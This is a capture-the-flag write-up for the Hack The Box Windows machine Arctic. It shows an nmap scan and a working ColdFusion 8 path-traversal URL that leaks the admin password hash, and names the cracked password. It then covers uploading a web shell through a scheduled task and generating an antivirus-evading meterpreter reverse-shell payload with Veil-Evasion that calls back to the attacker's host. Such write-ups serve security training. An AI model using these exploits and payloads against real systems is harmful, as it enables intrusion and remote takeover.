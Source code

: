 ```yaml
---
layout: post
title: Arctic(HTB)
categories:
  - Writeup
---
```


<br>OS Windows
<br>IP: 10.10.10.11
<br>Machine Author: ch4p

**Nmap**:-
<font size="1">
<div style="height:300px;width:600px;overflow:auto;background-color:#262626;color:White;scrollbar-base-color:gold;font-family:monospace;padding:10px;">
<p><font color="red">root@kali</font>:<font color="RoyalBlue">~/Desktop</font># nmap -sS -A 10.10.10.11</p>

<p>Starting Nmap 7.50 ( https://nmap.org ) at 2017-12-27 08:00 EST
<br>Nmap scan report for 10.10.10.11
<br>Host is up (0.16s latency).
<br>Not shown: 997 filtered ports
<br>PORT      STATE SERVICE VERSION
<br><font color="BB69EC">135/tcp</font>   open  <font color="53E100">msrpc</font>   Microsoft Windows RPC
<br><font color="BB69EC">8500/tcp</font>  open  <font color="53E100">fmtp?</font>
<br><font color="BB69EC">49154/tcp</font> open  <font color="53E100">unknown</font>
<br>Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
<br>Device type: specialized|WAP|phone
<br>Running: iPXE 1.X, Linux 2.4.X|2.6.X, Sony Ericsson embedded
<br>OS CPE: cpe:/o:ipxe:ipxe:1.0.0%2b cpe:/o:linux:linux_kernel:2.4.20 cpe:/o:linux:linux_kernel:2.6.22 cpe:/h:sonyericsson:u8i_vivaz
<br>OS details: iPXE 1.0.0+, Tomato 1.28 (Linux 2.4.20), Tomato firmware (Linux 2.6.22), Sony Ericsson U8i Vivaz mobile phone
<br>Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows</p>

<p>TRACEROUTE (using port 135/tcp)
<br>HOP RTT        ADDRESS
<br>1   191.61 ms  10.10.14.1
<br>2   ... 6
<br>7   2371.15 ms 10.10.14.1</p>

<p>OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
<br>Nmap done: 1 IP address (1 host up) scanned in 85.23 seconds
<br><font color="red">root@kali</font>:<font color="RoyalBlue">~/Desktop</font># </p>
</div>
</font>

<br>**Web**:-
![Web](https://teckk2.github.io/assets/images/Arctic/1-Arctic.png)
<br>On port:**8500** there are two directories 
<br>If we open **/cfdocs/** directory then we can see there is _adobe coldfusion 8_ is running on the web.
![coldfusion](https://teckk2.github.io/assets/images/Arctic/2-Arctic.png)
<br>For which there is a **LFI** exploit available using which we can reveal the admin password **hash**.
<br>[http://10.10.10.11:8500//CFIDE/administrator/enter.cfm?locale=../../../../../../../../../../ColdFusion8/lib/password.properties%00en](http://10.10.10.11:8500//CFIDE/administrator/enter.cfm?locale=../../../../../../../../../../ColdFusion8/lib/password.properties%00en)
![admin-hash](https://teckk2.github.io/assets/images/Arctic/3-Arctic.PNG)
<br>Now crack the password hash using [online tool](https://crackstation.net/) or if you want you can use john or hashcat.
![hash-cracker](https://teckk2.github.io/assets/images/Arctic/4-Arctic.PNG)
<br>The Password is _**{happyday}**_, now we can loggin into **coldfusion** as _admin_.
<br>And make sure that Coldfusion only allow two loggin at a time and it's really slow to response, So if you are unable to loggin then must be there is someone logged in or forget to logout, So revert the machine if you face any issue like this.
<br>Now Go to DEBUGGING & LOGGING tab and click on Scheduled Task now a page will popup then click on Schedule New Task.
![Shedule-Task](https://teckk2.github.io/assets/images/Arctic/5-Arctic.PNG)
![NEW-TASK](https://teckk2.github.io/assets/images/Arctic/6-Arctic.PNG)
<br>Before we proceed further we need to create a cfexec.cfm file which will give us a web shell. So, Copy The HTML payload From my [Pastebin](https://pastebin.com/KSZ4WrfV) and paste it in a new file and make sure to name it cfexec.cfm or it will not work because it's hardcoded.
![cfexec.cfm](https://teckk2.github.io/assets/images/Arctic/7-Arctic.PNG)
<br>Now Set up our WebServer and then fillup the shedule page as shown in the image below.
![python server](https://teckk2.github.io/assets/images/Arctic/8-Arctic.PNG)
![Shedule]https://teckk2.github.io/assets/images/Arctic/9-Arctic.PNG
<br>If all goes correct then as soon you click the submit button, you will see the file request from the server.
![response](https://teckk2.github.io/assets/images/Arctic/10-Arctic.PNG)
<br>If you don't get file request automatically, then you can try clicking (_Run Shedule Task_) button below **Actions**.
<br>Now check the page we uploaded [http://10.10.10.11:8500/CFIDE/cfexec.cfm](http://10.10.10.11:8500/CFIDE/cfexec.cfm)
<br>It should be blank so we need to specify the cmd.exe location to execute the command and in option the command we need to execute and the output file.
![command](https://teckk2.github.io/assets/images/Arctic/11-Arctic.PNG)
<br>It will take around 10 to 20 sec to execute the command so wait untill the page loads, and after that cehck the output.txt file
![output](https://teckk2.github.io/assets/images/Arctic/12-Arctic.PNG)
<br>We got the RCE, there is an **AV** runnning on the target machine and in order to get reverse shell we need to create an encrypted payload in (.bat) format using [Veil-Evasion](https://github.com/Veil-Framework/Veil-Evasion) tool.
<br>Download the tool,No need to install just run the (Veil-Evasion.py) and generate the payload
<br>Check the list of Payload avaialble and chose (powershell/meterpreter/rev_tcp).
<font size="1">
<div style="height:300px;width:600px;overflow:auto;background-color:#262626;color:White;scrollbar-base-color:gold;font-family:monospace;padding:10px;">
<p><font color="red">root@kali</font>:<font color="RoyalBlue">~/Downloads/Veil-Evasion-master</font># ./Veil-Evasion.py</p>
<p>=========================================================================
<br>&nbsp;Veil-Evasion | [Version]: 2.28.2
<br>=========================================================================
<br>&nbsp;[Web]: https://www.veil-framework.com/ | [Twitter]: @VeilFramework
<br>=========================================================================</p>

<p>&nbsp;Main Menu</p>

<p>&nbsp;<font color="53E100">51</font> payloads loaded</p>

<p>&nbsp;Available Commands:</p>

<p>&nbsp;use&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Use a specific payload
<br>&nbsp;info&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Information on a specific payload
<br>&nbsp;list&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;List available payloads
<br>&nbsp;update&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Update Veil-Evasion to the latest version
<br>&nbsp;clean&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Clean out payload folders
<br>&nbsp;checkvt&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Check payload hashes vs. VirusTotal
<br>&nbsp;exit&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Exit Veil-Evasion</p>

<p>&nbsp;[menu>>]: <font color="BB69EC">list</font></p>
<p>=========================================================================
<br>&nbsp;Veil-Evasion | [Version]: 2.28.2
<br>=========================================================================
<br>&nbsp;[Web]: https://www.veil-framework.com/ | [Twitter]: @VeilFramework
<br>=========================================================================</p>


<p>&nbsp;<font color="53E100">[*] Available Payloads:</font></p>

<p>&nbsp;1)	auxiliary/coldwar_wrapper
<br>&nbsp;2)	auxiliary/macro_converter
<br>&nbsp;3)	auxiliary/pyinstaller_wrapper</p>

<p>&nbsp;4)	c/meterpreter/rev_http  
<br>&nbsp;5)	c/meterpreter/rev_http_service
<br>&nbsp;6)	c/meterpreter/rev_tcp   
<br>&nbsp;7)	c/meterpreter/rev_tcp_service
<br>&nbsp;8)	c/shellcode_inject/flatc</p>

<p>&nbsp;9)	cs/meterpreter/rev_http 
<br>&nbsp;10)	cs/meterpreter/rev_https
<br>&nbsp;11)	cs/meterpreter/rev_tcp  
<br>&nbsp;12)	cs/shellcode_inject/base64_substitution
<br>&nbsp;13)	cs/shellcode_inject/virtual</p>

<p>&nbsp;14)	go/meterpreter/rev_http 
<br>&nbsp;15)	go/meterpreter/rev_https
<br>&nbsp;16)	go/meterpreter/rev_tcp  
<br>&nbsp;17)	go/shellcode_inject/virtual</p>

<p>&nbsp;18)	native/backdoor_factory 
<br>&nbsp;19)	native/hyperion         
<br>&nbsp;20)	native/pe_scrambler</p>     

<p>&nbsp;21)	perl/shellcode_inject/flat</p>

<p>&nbsp;22)	powershell/meterpreter/rev_http
<br>&nbsp;23)	powershell/meterpreter/rev_https
<br>&nbsp;24)	powershell/meterpreter/rev_tcp
<br>&nbsp;25)	powershell/shellcode_inject/download_virtual
<br>&nbsp;26)	powershell/shellcode_inject/download_virtual_https
<br>&nbsp;27)	powershell/shellcode_inject/psexec_virtual
<br>&nbsp;28)	powershell/shellcode_inject/virtual</p>

<p>&nbsp;29)	python/meterpreter/bind_tcp
<br>&nbsp;30)	python/meterpreter/rev_http
<br>&nbsp;31)	python/meterpreter/rev_http_contained
<br>&nbsp;32)	python/meterpreter/rev_https
<br>&nbsp;33)	python/meterpreter/rev_https_contained
<br>&nbsp;34)	python/meterpreter/rev_tcp
<br>&nbsp;35)	python/shellcode_inject/aes_encrypt
<br>&nbsp;36)	python/shellcode_inject/aes_encrypt_HTTPKEY_Request
<br>&nbsp;37)	python/shellcode_inject/arc_encrypt
<br>&nbsp;38)	python/shellcode_inject/base64_substitution
<br>&nbsp;39)	python/shellcode_inject/des_encrypt
<br>&nbsp;40)	python/shellcode_inject/download_inject
<br>&nbsp;41)	python/shellcode_inject/flat
<br>&nbsp;42)	python/shellcode_inject/letter_substitution
<br>&nbsp;43)	python/shellcode_inject/pidinject
<br>&nbsp;44)	python/shellcode_inject/stallion</p>

<p>&nbsp;45)	ruby/meterpreter/rev_http
<br>&nbsp;46)	ruby/meterpreter/rev_http_contained
<br>&nbsp;47)	ruby/meterpreter/rev_https
<br>&nbsp;48)	ruby/meterpreter/rev_https_contained
<br>&nbsp;49)	ruby/meterpreter/rev_tcp
<br>&nbsp;50)	ruby/shellcode_inject/base64
<br>&nbsp;51)	ruby/shellcode_inject/flat</p>

<p>&nbsp;[menu>>]: <font color="BB69EC">use 24</font></p>
<p>=========================================================================
<br>&nbsp;Veil-Evasion | [Version]: 2.28.2
<br>=========================================================================
<br>&nbsp;[Web]: https://www.veil-framework.com/ | [Twitter]: @VeilFramework
<br>=========================================================================</p>


<p>&nbsp;Payload: powershell/meterpreter/rev_tcp loaded</p>


<p>&nbsp;Required Options:</p>

<p>&nbsp;Name&nbsp;&nbsp;&nbsp;Current&nbsp;Value&nbsp;Description
<br>&nbsp;----&nbsp;&nbsp;&nbsp;-------------&nbsp;-----------
<br>&nbsp;LHOST&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;IP of the Metasploit handler
<br>&nbsp;LPORT&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;4444&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Port of the Metasploit handler</p>

<p>&nbsp;Available Commands:</p>

<p>&nbsp;set&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Set a specific option value
<br>&nbsp;info&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Show information about the payload
<br>&nbsp;options&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Show payload's options
<br>&nbsp;generate&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Generate payload
<br>&nbsp;back&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Go to the main menu
<br>&nbsp;exit&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;exit Veil-Evasion</p>

<p>&nbsp;[powershell/meterpreter/rev_tcp>>]: <font color="BB69EC">set LHOST 10.10.14.14</font>
<br>&nbsp;[i] LHOST => 10.10.14.14
<br>&nbsp;[powershell/meterpreter/rev_tcp>>]: <font color="BB69EC">set LPORT 4455</font>
<br>&nbsp;[i] LPORT => 4455
<br>&nbsp;[powershell/meterpreter/rev_tcp>>]: <font color="BB69EC">generate</font></p>
 
<p>=========================================================================
<br>&nbsp;Veil-Evasion | [Version]: 2.28.2
<br>=========================================================================
<br>&nbsp;[Web]: https://www.veil-framework.com/ | [Twitter]: @VeilFramework
<br>=========================================================================</p>


<p>&nbsp;[>] Please enter the base name for output files (default is 'payload'): arctic</p>

<p>&nbsp;Language:		<font color="53E100">powershell</font>
<br>&nbsp;Payload:		powershell/meterpreter/rev_tcp
<br>&nbsp;Required Options:      LHOST=10.10.14.14  LPORT=4455
<br>&nbsp;Payload File:		/var/lib/veil-evasion/output/source/arctic.bat
<br>&nbsp;Handler File:		/var/lib/veil-evasion/output/handlers/arctic_handler.rc</p>

<p>&nbsp;[*] Your payload files have been generated, don't get caught!
<br>&nbsp;<font color="ffff00">[!] And don't submit samples to any online scanner! ;)</font></p>

<p>&nbsp;[>] Press any key to return to the main menu.</p>
</div>
</font>
<br>Our payload has been generate, now copy the payload to desktop and set up the webserver if it's not already running to upload the file.
<font size="1">
<div style="height:100px;width:600px;overflow:auto;background-color:#262626;color:White;scrollbar-base-color:gold;font-family:monospace;padding:10px;">
<p><font color="red">root@kali</font>:<font color="RoyalBlue">~/Downloads/Veil-Evasion-master</font># cp /var/lib/veil-evasion/output/source/arctic.bat /root/Desktop/
<br><font color="red">root@kali</font>:<font color="RoyalBlue">~/Downloads/Veil-Evasion-master</font># cd /root/Desktop/
<br><font color="red">root@kali</font>:<font color="RoyalBlue">~/Desktop</font># python -m SimpleHTTPServer 80
<br>Serving HTTP on 0.0.0.0 port 80 ...</p>
</div>
</font>
<br>Now upload the file using the same method we uploaded our HTML payload earlier using (Shedule Task), for this create a new shedule task and trigger the file using our web shell.
![arctic-shell](https://teckk2.github.io/assets/images/Arctic/13-Arctic.PNG)
